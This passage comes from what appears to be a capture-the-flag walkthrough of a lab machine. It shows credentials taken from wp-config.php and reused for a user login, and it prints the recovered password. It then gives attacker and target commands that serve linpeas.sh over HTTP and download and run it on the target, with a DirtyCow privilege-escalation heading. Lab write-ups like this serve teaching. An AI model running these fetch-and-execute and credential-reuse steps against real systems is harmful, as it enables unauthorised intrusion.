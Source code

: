 We do know that the website was running WordPress, so I know a configuration file that might have MySQL credentials, which is `wp-config.php` file. We do find MySQL credentials here, but before using it on MySQL, I would like to use it on Loly user, because the password is probably set by Loly and she might have reused it in his user session.

**Creds -** Loly:Lolyisbeautifulgirl

![](Loly/18.png)

We were right, Loly indeed had reused that password in that configuration file. Now that we are Loly, we can go through the system smoothly and figure out a way to get the root shell.

### DirtyCow - Privilege Escalation

After getting the Loly user shell, I tried searching for sudo binaries or SUID binaries but shockingly, Loly is not a sudo user and there were no suid binaries which can be used for privilege escalation. I then searched for any abnormal things, like passwords in configuration files, processes running by root, any script executed under certain minutes by root, etc. But we were not able to find anything interesting, and after doing all manual checks, I decided to execute linpeas on the target machine.

**Commands (Attacker):**
- `sudo cp /usr/share/peass/linpeas/linpeas.sh .`
- `sudo chown zerox30:zerox30 linpeas.sh`
- `python3 -m http.server 80`

**Commands (Target):**
- `wget http://[myIP]/linpeas.sh`
- `sudo chmod +x linpeas.sh`
- `./linpeas.sh`
